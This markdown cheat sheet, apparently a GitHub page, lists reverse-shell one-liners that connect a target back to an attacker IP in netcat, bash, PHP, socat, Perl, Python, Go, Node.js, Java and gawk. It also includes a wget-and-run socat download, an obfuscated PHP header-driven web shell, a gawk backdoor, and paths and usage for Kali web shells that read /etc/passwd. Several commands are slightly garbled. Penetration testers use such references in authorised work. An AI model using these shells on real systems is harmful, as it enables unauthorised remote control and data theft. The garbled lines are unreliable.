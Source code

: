 # Various Reverse Shells
If you need the binaries you can install them from https://github.com/andrew-d/static-binaries 

## Setup a listner

```
nc -nvlp 4444
```

## Netcat Reverse Shell

```
nc -e /bin/sh <ATTACKING-IP> 4444
```
```
/bin/sh | nc <ATTACKING-IP> 4444
```
```
rm -f /tmp/p; mknod /tmp/p p && nc <ATTACKING-IP> 4444 0/tmp/p
```
### NC OPENBSD
```
mkfifo /tmp/lol;nc <ATTACKING-IP> 4444 0</tmp/lol | /bin/sh -i 2>&1 | tee /tmp/lol
```
## Telnet Reverse Shell
```
rm -f /tmp/p; mknod /tmp/p p && telnet <ATTACKING-IP> 4444 0/tmp/p
```
```
telnet <ATTACKING-IP> 80 | /bin/bash | telnet <ATTACKING-IP> 4444
```

## Bash Reverse Shell

```
exec /bin/bash 0&0 2>&0
```
```
0<&196;exec 196<>/dev/tcp/ATTACKING-IP/80; sh <&196 >&196 2>&196
```
```
exec 5<>/dev/tcp/ATTACKING-IP/80
cat <&5 | while read line; do $line 2>&5 >&5; done
```
Or
```
while read line 0<&5; do $line 2>&5 >&5; done
```
```
bash -i >& /dev/tcp/ATTACKING-IP/80 0>&1
```

## PHP Reverse Shell

Assumes TCP uses file descriptor 3. If it doesn't work, try 4,5, or 6
```
php -r '$sock=fsockopen("ATTACKING-IP",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```
```
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/"ATTACKING IP"/4444 0>&1'");?>
```
Base64 encoded
```
<?=$x=explode('~',base64_decode(substr(getallheaders()['x'],1)));@$x[0]($x[1]);
```

## socat Reverse Shell
:warning: You must use socat to listen
```
socat file:`tty`,raw,echo=0 tcp-listen:4444
```
```
socat tcp:ip:port exec:'bash -i' ,pty,stderr,setsid,sigint,sane &
```
```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```
NEED TO DOWNLOAD SOCAT?
```
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

## Perl Reverse Shell
```
perl -e 'use Socket;$i="ATTACKING-IP";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## Ruby Reverse Shell

```
ruby -rsocket -e'f=TCPSocket.open("<ATTACKING-IP>",4444).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```
## Python Reverse Shell

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ATTACKING-IP>",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## Golang Reverse Shell

```
echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","<ATTACKING-IP>:4444");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;http://cmd.Run();}'>/tmp/sh.go&&go run /tmp/sh.go
```

## Node.js Revese Shell
```
require('child_process').exec('bash -i >& /dev/tcp/<ATTACKING-IP>/4444 0>&1');
```
## Java Reverse Shell
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/<ATTACKING-IP>/4444;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
## Gawk Reverse Shell

```
gawk 'BEGIN {P=4444;S="> ";H="<ATTACKING-IP>";V="/inet/tcp/0/"H"/"P;while(1){do{printf S|&V;V|&getline c;if(c){while((c|&getline)>0)print $0|&V;close(c)}}while(c!="exit")close(V)}}'
```
```
#!/usr/bin/gawk -f

BEGIN {
        Port    =       8080
        Prompt  =       "bkd> "

        Service = "/inet/tcp/" Port "/0/0"
        while (1) {
                do {
                        printf Prompt |& Service
                        Service |& getline cmd
                        if (cmd) {
                                while ((cmd |& getline) > 0)
                                        print $0 |& Service
                                close(cmd)
                        }
                } while (cmd != "exit")
                close(Service)
        }
}
```

# Kali Web Shells
The following shells exist within Kali Linux, under /usr/share/webshells/ these are only useful if you are able to upload, inject or transfer the shell to the machine.

## PHP
`/usr/share/webshells/php/php-reverse-shell.php`

`/usr/share/webshells/php/php-findsock-shell.php`

`/usr/share/webshells/php/findsock.c` - You will need to run `gcc -o findsock findsock.c` to compile it and execute with netcat not a browser `nc -v <target-ip> 4444`

`/usr/share/webshells/php/simple-backdoor.php` PHP backdoor, usefull for CMD execution if upload / code injection is possible, usage: ```http://target.com/simple-
backdoor.php?cmd=cat+/etc/passwd```

`/usr/share/webshells/php/php-backdoor.php` - Larger PHP shell, with a text input box for command execution.

> The last two shells above are not reverse shells, however they can be useful for executing a reverse shell.

## Perl
`/usr/share/webshells/perl/perl-reverse-shell.pl`

`/usr/share/webshells/perl/perlcmd.cgi` - Usage - `http://target.com/perlcmd.cgi?cat /etc/passwd`


## Cold Fusion(CFM)
`/usr/share/webshells/cfm/cfexec.cfm`

## ASP/ASPX
`/usr/share/webshells/asp/`

`/usr/share/webshells/aspx/`

## JSP
`/usr/share/webshells/jsp/jsp-reverse.jsp`
